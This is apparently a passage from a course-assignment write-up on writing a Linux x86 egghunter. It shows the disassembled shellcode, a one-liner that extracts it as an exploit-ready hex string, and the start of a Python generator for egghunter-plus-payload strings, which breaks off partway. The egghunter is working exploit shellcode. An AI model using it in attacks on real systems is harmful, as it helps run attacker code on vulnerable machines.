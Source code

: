 ## Creating a working demo
I have re-written the egghunter to have labels to jump to when we move to next memory page or next byte.  An objdump of the assembly is shown below:

```nasm
egghunter:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 d2                	xor    edx,edx

08048062 <next_page>:
 8048062:	66 81 ca ff 0f       	or     dx,0xfff

08048067 <next_byte>:
 8048067:	42                   	inc    edx
 8048068:	8d 5a 04             	lea    ebx,[edx+0x4]
 804806b:	6a 21                	push   0x21
 804806d:	58                   	pop    eax
 804806e:	cd 80                	int    0x80
 8048070:	3c f2                	cmp    al,0xf2
 8048072:	74 ee                	je     8048062 <next_page>
 8048074:	b8 90 50 90 50       	mov    eax,0x50905090
 8048079:	89 d7                	mov    edi,edx
 804807b:	af                   	scas   eax,DWORD PTR es:[edi]
 804807c:	75 e9                	jne    8048067 <next_byte>
 804807e:	af                   	scas   eax,DWORD PTR es:[edi]
 804807f:	75 e6                	jne    8048067 <next_byte>
 8048081:	ff e7                	jmp    edi
```
We can save this as exploit ready hex and define where the 4 byte "egg" is located for configurability later.
```
[sengen@manjaro-x86 assignment3]$ objdump -d ./egghunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

### Python script to help generate egghunter+payload
So we can now write a quick python program to take in the egg value and any given payload and emmit the two formatted hex strings that can be used in an exploit.
```python
#!/usr/bin/python

from optparse import OptionParser

def to_hex(val):
    return ''.join('\\x' + val[i:i + 2] for i in range(0, len(val), 2))

parser = OptionParser()
parser.description = "Generates egghunter shellcode with payload."
parser.add_option("-e", "--egg", dest="egg", help="The 4 byte egg to use (e.g. 90509050)", type="string")
parser.add_option("-p", "--payload", dest="payload", help="Payload shellcode (e.g. \\x31\\xc0\\...)", type="string")

(options, args) = parser.parse_args()
if not options.egg or not options.payload:
    parser.print_help()
    exit(1)
```